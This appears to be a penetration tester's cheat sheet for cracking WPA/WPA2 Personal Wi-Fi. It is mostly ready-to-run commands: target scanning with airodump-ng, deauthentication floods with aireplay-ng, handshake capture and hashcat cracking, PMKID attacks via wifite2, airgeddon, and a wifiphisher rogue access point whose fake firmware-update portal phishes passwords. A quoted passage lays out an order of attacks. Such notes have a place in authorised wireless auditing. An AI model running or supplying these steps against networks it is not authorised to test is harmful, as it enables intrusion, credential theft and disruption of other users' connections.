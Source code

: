 ```yaml
---
description: Wi-Fi Protected Access Personal
---
```


# WPA/WPA2 Personal




## 4-Way Handshake

* [https://www.wifi-professionals.com/2019/01/4-way-handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work](https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work)
* [https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
* [https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng](https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng)
* [https://hackware.ru/?p=74](https://hackware.ru/?p=74)
* [https://hackware.ru/?p=7542](https://hackware.ru/?p=7542)
* [https://hackware.ru/?p=5209](https://hackware.ru/?p=5209)

1\. Look for targets. Save BSSID (`00:00:00:00:00:01`), CH (`9`), ESSID (`SomeEssid`) and STATION (`00:00:00:00:00:02`) if deauth will be required:

```
$ sudo airodump-ng -M -U wlan1 [-c 36-165 (for 5GHz, see WLAN channels) or just -c 1-200 for all] [--band <abg>]
qq
```

2\. Start dumping the target's traffic:

```
[$ sudo iwconfig wlan1 channel 9]
$ sudo airodump-ng -c 9 --bssid 00:00:00:00:00:01 -w SomeEssid wlan1
```

3\. Send DeAuth packets in a separate terminal till `WPA handshake: XX:XX:XX:XX:XX:XX` appears (aggressive):

```
$ sudo aireplay-ng [-D] -0 2 -a 00:00:00:00:00:01 -c 00:00:00:00:00:02 wlan1
Or
$ for client in `cat 00:00:00:00:00:01.txt`; do sudo aireplay-ng -D -0 2 -a 00:00:00:00:00:01 -c $client wlan1; done
```

4\. Clean the capture, check it once again, covert to Hashcat format and crack it:

```
$ aircrack-ng SomeEssid*.cap
$ wpaclean SomeEssid-cleaned.cap SomeEssid-01.cap
$ cowpatty -r SomeEssid-cleaned.cap -s SomeEssid -c
$ /usr/lib/hashcat-utils/cap2hccapx.bin SomeEssid-cleaned.cap SomeEssid.hccapx
$ hashcat -m 2500 -O -a 0 -w 4 --session=wpa2_handshakes -o wpa2_handshakes.out wpa2_handshakes.in SomeEssid.hccapx seclists/Passwords/darkc0de.txt
```



### wifite2

```
$ sudo wifite -vi wlan1 --clients-only --wpa --no-wps
```




## PMKID

* [https://https://habr.com/ru/company/jetinfosystems/blog/419383/](https://habr.com/ru/company/jetinfosystems/blog/419383/)



### wifite2

```
$ sudo wifite -vi wlan1 --pmkid
```




## wifite2

* [https://github.com/derv82/wifite2](https://github.com/derv82/wifite2)
* [https://github.com/nuncan/wifite2mod](https://github.com/nuncan/wifite2mod)

> «Поэтому оптимальный алгоритм взло… аудита следующий: определяем, включен ли на целевой точке доступа режим WPS. Если да, запускаем PixieDust. Безуспешно? Тогда перебор известных пинов. Не получилось? Проверяем, не включено ли шифрование WEP, которое тоже обходится влет. Если нет, то выполняем атаку PMKID на WPA(2). Если уж и так не получилось, тогда вспоминаем классику и ждем хендшейка (чтобы не палиться) или активно кикаем клиентов, чтобы наловить их сессии авторизации.» — [&#91;&#93;](https://xakep.ru/2020/01/27/wifi-total-pwn/)

Install wifite2:

```
$ git clone https://github.com/derv82/wifite2 ~/tools/wifite2 && cd ~/tools/wifite2
$ sudo python setup.py install
```

Install hcxdumptool (for capturing PMKID hashes):

```
$ git clone https://github.com/ZerBea/hcxdumptool.git ~/tools/hcxdumptool && cd ~/tools/hcxdumptool
$ sudo apt install libcurl4-openssl-dev libssl-dev -y
$ make
$ sudo make install
```

Install (for converting PMKID packet captures into hashcat's format):

```
$ git clone https://github.com/ZerBea/hcxtools.git ~/tools/hcxtools && cd ~/tools/hcxtools
$ make
$ sudo make install
```

Fire up wifite2:

```
$ sudo wifite -vi wlan1 [--kill] [-5]
```




## airgeddon

* [https://github.com/v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)

```
$ git clone --depth 1 https://github.com/v1s1t0r1sh3r3/airgeddon.git ~/tools/airgeddon && cd ~/tools/airgeddon
$ sudo bash airgeddon.sh
```




## wifiphisher

* [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
* [Creating a custom phishing scenario · wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher/blob/5ae21ab93e0dce85dd4bf76e68cc3b996aa33dea/docs/custom_phishing_scenario.rst)

Install:

```
$ git clone https://github.com/wifiphisher/wifiphisher.git ~/tools/wifiphisher && cd ~/tools/wifiphisher
$ sudo python3 setup.py install # Install any dependencies
```

Start a rogue AP with fake captive portal (firmware update scenario) on wlan1 and deauth clients with wlan2:

```
$ sudo wifiphisher -aI wlan1 -eI wlan2 -p wifi_connect
```
